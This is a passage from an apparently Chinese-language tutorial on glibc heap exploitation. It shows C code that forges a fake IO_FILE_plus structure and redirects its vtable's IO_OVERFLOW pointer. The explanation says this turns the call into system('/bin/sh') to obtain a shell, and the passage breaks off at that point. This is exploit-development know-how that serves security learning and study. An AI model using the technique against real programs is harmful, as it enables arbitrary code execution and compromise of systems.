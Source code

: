 ```plain
/*
  1. Set mode to 0: fp->_mode <= 0
*/

fp->_mode = 0; // top+0xc0


/*
  2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
*/

fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28


/*
  4) Finally set the jump table to controlled memory and place system there.
  The jump table pointer is right after the FILE struct:
  base_address+sizeof(FILE) = jump_table

     4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
*/

size_t *jump_table = &top[12]; // controlled memory
jump_table[3] = (size_t) &winner;
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
```

这段代码便是用来伪造一个 IO\_file\_list 结构体，具体效果是这样的

[![](assets/1701606938-ebbf30071683d5a55cad36be8d4bf2c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201456-499dc892-6a8b-1.png)

这样修改的目的：

在堆中伪造一个 IO\_FILE\_plus 结构体，将 IO\_FILE\_plus.vtable 中 IO\_OVERFLOW 的函数指针修改为 system 函数，IO\_FILE 结构体 0 字节偏移处改写为"sh"、“/bin/sh”或者“$”，这时候如果调用了函数 IO\_OVERFLOW(fp,EOF) 就相当于调用 system("/bin/sh")，即 getshell

调用：

